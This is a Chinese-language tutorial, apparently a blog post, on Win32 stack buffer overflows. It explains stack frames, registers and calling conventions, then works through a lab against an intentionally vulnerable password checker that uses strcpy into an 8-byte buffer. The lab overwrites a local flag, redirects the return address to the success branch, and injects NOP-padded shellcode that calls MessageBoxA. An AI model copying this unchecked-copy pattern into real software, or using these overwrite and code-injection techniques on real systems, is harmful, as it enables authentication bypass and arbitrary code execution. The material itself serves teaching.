缓冲区溢出是一种非常普遍、非常危险的漏洞，在各种操作系统、应用软件中广泛存在。利用缓冲区溢出攻击，可以导致程序运行失败、系统宕机、重新启动等后果。更为严重的是，可以利用它执行非授权指令，甚至可以取得系统特权，进而进行各种非法操作。
系统栈的工作原理
内存的不同用途
缓冲区溢出就是在大缓冲区中的数据向小缓冲区复制的过程中，由于没有注意小缓冲区的边界，“撑爆”了较小的缓冲区，从而冲掉了和小缓冲区相邻内存区域的其他数据而引起的内存问题
成功地利用缓冲区溢出漏洞可以修改内存中变量的值，甚至可以劫持进程，执行恶意代码，最终获得主机的控制权
内存的功能：
（1）代码区：这个区域存储着被装入执行的二进制机器代码，处理器会到这个区域取指并执行。
（2）数据区：用于存储全局变量等。
（3）堆区：进程可以在堆区动态地请求一定大小的内存，并在用完之后归还给堆区。动态分配和回收是堆区的特点。
（4）栈区：用于动态地存储函数之间的调用关系，以保证被调用函数在返回时恢复到母函数中继续执行。
栈与系统栈
从计算机科学的角度来看，栈指的是一种数据结构，是一种先进后出的数据表。栈的最常见操作有两种：压栈（PUSH）、弹栈（POP）；用于标识栈的属性也有两个：栈顶（TOP）、栈底（BASE）。
内存的栈区实际上指的就是系统栈。系统栈由系统自动维护，它用于实现高级语言中函数的调用
寄存器与函数栈帧
每一个函数独占自己的栈帧空间。当前正在运行的函数的栈帧总是在栈顶。Win32 系统提供两个特殊的寄存器用于标识位于系统栈顶端的栈
（1）ESP：栈指针寄存器(extended stack pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈顶。
（2）EBP：基址指针寄存器(extended base pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的底部。
函数栈帧：ESP 和EBP 之间的内存空间为当前栈帧，EBP 标识了当前栈帧的底部，ESP标识了当前栈帧的顶部。
在函数栈帧中，一般包含以下几类重要信息。
（1）局部变量：为函数局部变量开辟的内存空间。
（2）栈帧状态值：保存前栈帧的顶部和底部（实际上只保存前栈帧的底部，前栈帧的顶部可以通过堆栈平衡计算得到），用于在本帧被弹出后恢复出上一个栈帧。
（3）函数返回地址：保存当前函数调用前的“断点”信息，也就是函数调用前的指令位置，以便在函数返回时能够恢复到函数被调用前的代码区中继续执行指令。
除了与栈相关的寄存器外，您还需要记住另一个至关重要的寄存器。
EIP：指令寄存器(Extended Instruction Pointer)，其内存放着一个指针，该指针永远指向下一条等待执行的指令地址。
函数调用约定与相关指令
函数调用约定描述了函数传递参数方式和栈协同工作的技术细节。不同的操作系统、不同的语言、不同的编译器在实现函数调用时的原理虽然基本相同，但具体的调用约定还是有差别的。

这里说一下从右到左的意思 以C语言为例：
看下面这句话 printf（”%d %d %d”,1,2,3），在采用从右向左的参数入栈顺序时，参数出栈顺序时”%d %d %d”，1,2,3。
如果采用从左向右的入栈顺序，则出栈顺序变为3,2,1，”%d %d %d”。
当然，不管是采用哪种顺序，printf的功能都可以实现的。但是，如果采用后者，当处理printf（”%d %d %d”,1,2,3,4,5,6）时，就会造成不必要的工作，因为如果按照这个顺序，就需要先存储所有六个参数（1,2.3，4,5,6），而后才能根据“%d %d %d”来判断出4,5,6,是不需要的。如果按照这个顺序，其实问题也可以解决，方法就是把printf的参数顺序设计成这样printf（6,5,4,3,2，1，“%d %d %d”），这样处理效率就会提高。但这样就不太合理了 所以 还是选择从右到左更为合理
函数调用大致包括以下几个步骤。
（1）参数入栈：将参数从右向左依次压入系统栈中。
（2）返回地址入栈：将当前代码区调用指令的下一条指令地址压入栈中，供函数返回时继续执行。
（3）代码区跳转：处理器从当前代码区跳转到被调用函数的入口处。
（4）栈帧调整：具体包括。
保存当前栈帧状态值，已备后面恢复本栈帧时使用（EBP 入栈）；将当前栈帧切换到新栈帧（将ESP 值装入EBP，更新栈帧底部）；给新栈帧分配空间（把ESP 减去所需空间的大小，抬高栈顶）；
对于__stdcall 调用约定，函数调用时用到的指令序列大致如下。1
2
3
4
5
6
7
8
9
10;调用前
push 参数3 ;假设该函数有3 个参数，将从右向左依次入栈
push 参数2
push 参数1
call 函数地址;call 指令将同时完成两项工作：a）向栈中压入当前指令在内存
;中的位置，即保存返回地址。b）跳转到所调用函数的入口地址函
;数入口处
push ebp ;保存旧栈帧的底部
mov ebp，esp ;设置新栈帧的底部（栈帧切换）
sub esp，xxx ;设置新栈帧的顶部（抬高栈顶，为新栈帧开辟空间）
类似地，函数返回的步骤如下。
（1）保存返回值：通常将函数的返回值保存在寄存器EAX 中
（2）弹出当前栈帧，恢复上一个栈帧。
具体包括：
在堆栈平衡的基础上，给ESP 加上栈帧的大小，降低栈顶，回收当前栈帧的空间。
将当前栈帧底部保存的前栈帧EBP 值弹入EBP 寄存器，恢复出上一个栈帧。
将函数返回地址弹给EIP 寄存器。

（3）跳转：按照函数返回地址跳回母函数中继续执行。
还是以C 语言和Win32 平台为例，函数返回时的相关的指令序列如下1
2
3
4addesp, xxx ;降低栈顶，回收当前的栈帧
pop ebp;将上一个栈帧底部位置恢复到ebp，
retn;这条指令有两个功能：a)弹出当前栈顶元素，即弹出栈帧中的返回地址。至此，;栈帧恢复工作完成。
b)让处理器跳转到弹出的返回地址，恢复调用前的代码区.
修改邻接变量
将用一个非常简单的例子来说明破坏栈内局部变量对程序的安全性有何种影响。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30#include <stdio.h>
#define PASSWORD "1234567"
int verify_password (char *password)
{
int authenticated;
char buffer[8];// add local buffto be overflowed
authenticated=strcmp(password,PASSWORD);
strcpy(buffer,password);//over flowed here!
return authenticated;
}
main()
{
int valid_flag=0;
char password[1024];
while(1)
{
printf("please input password: ");
scanf("%s",password);
valid_flag = verify_password(password);
if(valid_flag)
{
printf("incorrect password!\n\n");
}
else
{
printf("Congratulation! You have passed theverification!\n");
break;
}
}
}
如果我们输入的密码超过了7 个字符（注意：字符串截断符NULL 将占用一个字节），则越界字符的ASCII 码会修改掉authenticated 的值。如果这段溢出数据恰好把authenticated 改为0，则程序流程将被改变。
突破密码验证程序
我们输入错误的密码7个q strcmp应该返回1 即authenticated的值为1

下来输入超过7个字符 输入qqqqqqqrst

栈中的情况和我们分析的一样，从输入的第9 个字符开始，将依次写入authenticated 变量。按照我们的输入“qqqqqqqqrst”，最终authenticated 的值应该是字符‘r’、‘s’、‘t’和用于截断字符串的null 所对应的ASCII 码0x00747372。
authenticated 变量的值来源于strcmp 函数的返回值，之后会返回给main 函数作为密码验证成功与否的标志变量。当authenticated 为0 时，表示验证成功；反之，验证不成功。
那我们将溢出从数据刚好改为0 试试能不能成 也就是说 你输入8个任意数值后 再输入4个空格（ascall码为0）的值 将该区域覆盖

然后就成功了
修改函数返回地址
返回地址与程序流程
我们输入太长的字符会导致栈溢出让程序奔溃

溢出前栈中的布局

下来继续执行 程序返回到了323334处 就是刚才栈溢出导致的

然后程序不知道如何让处理指令 报错了

控制程序的执行流程
然而键盘输入的ascl有限 我们将程序改成从文件中读取字符串1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31#include <stdio.h>
#define PASSWORD "1234567"
int verify_password (char *password)
{
int authenticated;
char buffer[8];
authenticated=strcmp(password,PASSWORD);
strcpy(buffer,password);//over flowed here!
return authenticated;
}
main()
{
int valid_flag=0;
char password[1024];
FILE * fp;
if(!(fp=fopen("password.txt","rw+")))
{
exit(0);
}
fscanf(fp,"%s",password);
valid_flag = verify_password(password);
if(valid_flag)
{
printf("incorrect password!\n");
}
else
{
printf("Congratulation! You have passed the verification!\n");
}
fclose(fp);
}
加载进OD看到 401102处的函数调用的就是verify_password 函数 之后在0x0040110A 处将EAX 中的函数返回值取出，在0x0040110D 处与0 比较，然后在401122处验证分支。

提示验证通过的分支从0x00401122 处的参数压栈开始。如果我们把返回地址覆盖成这个地址，那么在0x00401102 处的函数调用返回后，程序将跳转到验证通过的分支，而不是进入0x00401107 处分支判断代码。
仍然出于字节对齐、容易辨认的目的，我们将“4321”作为一个输入单元。
buffer[8]共需要两个这样的单元。
第3 个输入单元将authenticated 覆盖；第4 个输入单元将前栈帧EBP 值覆盖；第5 个输入单元将返回地址覆盖。
我们将第五个单元的ascll码34333231改成401122 用UltraEdit_32打开 切换到16进制模式 改成如图：


然后运行程序发现成功返回

由于栈内EBP 等被覆盖为无效值，使得程序在退出时堆栈无法平衡，导致崩溃。虽然如此，我们已经成功地淹没了返回地址，并让处理器如我们设想的那样，在函数返回时直接跳转到了提示验证通过的分支
代码植入
代码植入的原理
向进程中植入代码
1 | #include <stdio.h> |
而这次缓冲区共4个字节 意味着要输入11组4321

然后打开程序 发现通过验证


动态调试的结果证明了前边分析的正确性。从这次调试中，我们可以得到以下信息。
（1）buffer 数组的起始地址为0x0012FAF0。
（2）password.txt 文件中第53～56 个字符的ASCII 码值将写入栈帧中的返回地址，成为函数返回后执行的指令地址。
也就是说，将buffer 的起始地址0x0012FAF0 写入password.txt 文件中的第53～56 个字节，在verify_password 函数返回时会跳到我们输入的字串开始取指执行。
下来需要调用API函数MessageBox 用汇编语言调用MessageboxA需要3个步骤：
（1）装载动态链接库user32.dll。MessageBoxA 是动态链接库user32.dll 的导出函数。虽然大多数有图形化操作界面的程序都已经装载了这个库，但是我们用来实验的consol 版并没有默认加载它。
（2）在汇编语言中调用这个函数需要获得这个函数的入口地址。
（3）在调用前需要向栈中按从右向左的顺序压入MessageBoxA 的4 个参数。
下来用“Dependency Walker”获得MessageBoxA的地址

我们可以得到MessageBoxA的入口地址为77D507EA 接下来编写汇编代码1
2
3
4
5
6
7
8
9
10
11
1233DB XOR EBX,EBX
53 PUSH EBX
6877657374 PUSH 74736577
686661696C PUSH 6C696166 压入NULL 结尾的“failwest”字符串。之所以用EBX 清零后入栈作为字符串的截断符，是为了避免“PUSH 0”中的NULL，否则植入的机器码会被strcpy 函数截断
8BC4 MOV EAX,ESP EAX 里是字符串指针
53 PUSH EBX
50 PUSH EAX
50 PUSH EAX
53 PUSH EBX 4 个参数按照从右向左的顺序入栈，分别为(0,failwest,failwest,0)
消息框为默认风格， 文本区和标题都是“failwest”
B8EA07D577 MOV EAX, 0x77D507EA
FFD0 CALL EAX 调用MessageBoxA。注意：不同的机器这里的函数入口地址可能不同，请按实际值填入!
将上述汇编指令对应的机器代码按照上一节介绍的方法以十六进制形式逐字写入password.txt第53～56 字节填入buffer 的起址0x0012FAF0，其余的字节用0x90(nop 指令)填充

下来验证程序 程序执行流程图及运行结果：

